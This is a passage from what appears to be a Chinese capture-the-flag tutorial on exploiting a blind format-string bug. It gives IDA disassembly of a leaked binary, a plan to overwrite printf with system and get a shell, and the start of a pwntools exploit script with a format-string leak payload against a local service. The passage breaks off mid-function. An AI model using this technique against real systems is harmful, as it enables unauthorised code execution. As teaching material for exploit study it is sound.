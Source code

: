 需要注意的是，在 payload 中需要判断是否有 '\n' 出现，因为这样会导致源程序只读取前面的内容，而没有办法泄露内存，所以需要跳过这样的地址。

#### 分析binary

利用 IDA 打开泄露的 binary ，改变程序基地址，然后简单看看，可以基本确定源程序 main 函数的地址

```asm
seg000:00000000004005F6                 push    rbp
seg000:00000000004005F7                 mov     rbp, rsp
seg000:00000000004005FA                 add     rsp, 0FFFFFFFFFFFFFF80h
seg000:00000000004005FE
seg000:00000000004005FE loc_4005FE:                             ; CODE XREF: seg000:0000000000400639j
seg000:00000000004005FE                 lea     rax, [rbp-80h]
seg000:0000000000400602                 mov     edx, 80h ; '€'
seg000:0000000000400607                 mov     rsi, rax
seg000:000000000040060A                 mov     edi, 0
seg000:000000000040060F                 mov     eax, 0
seg000:0000000000400614                 call    sub_4004C0
seg000:0000000000400619                 lea     rax, [rbp-80h]
seg000:000000000040061D                 mov     rdi, rax
seg000:0000000000400620                 mov     eax, 0
seg000:0000000000400625                 call    sub_4004B0
seg000:000000000040062A                 mov     rax, cs:601048h
seg000:0000000000400631                 mov     rdi, rax
seg000:0000000000400634                 call    near ptr unk_4004E0
seg000:0000000000400639                 jmp     short loc_4005FE
```

可以基本确定的是 sub\_4004C0 为 read 函数，因为读入函数一共有三个参数的话，基本就是 read 了。此外，下面调用的 sub\_4004B0 应该就是输出函数了，再之后应该又调用了一个函数，此后又重新跳到读入函数处，那程序应该是一个 while 1 的循环，一直在执行。

#### 利用思路

分析完上面的之后，我们可以确定如下基本思路

- 泄露 printf 函数的地址，
- 获取对应 libc 以及 system 函数地址
- 修改 printf 地址为 system 函数地址
- 读入 /bin/sh; 以便于获取 shell

#### 利用程序

程序如下。

```python
##coding=utf8
import math
from pwn import *
from LibcSearcher import LibcSearcher
##context.log_level = 'debug'
context.arch = 'amd64'
ip = "127.0.0.1"
port = 9999


def leak(addr):
    # leak addr for three times
    num = 0
    while num < 3:
        try:
            print 'leak addr: ' + hex(addr)
            sh = remote(ip, port)
            payload = '%00008$s' + 'STARTEND' + p64(addr)
            # 说明有\n，出现新的一行
            if '\x0a' in payload:
                return None
```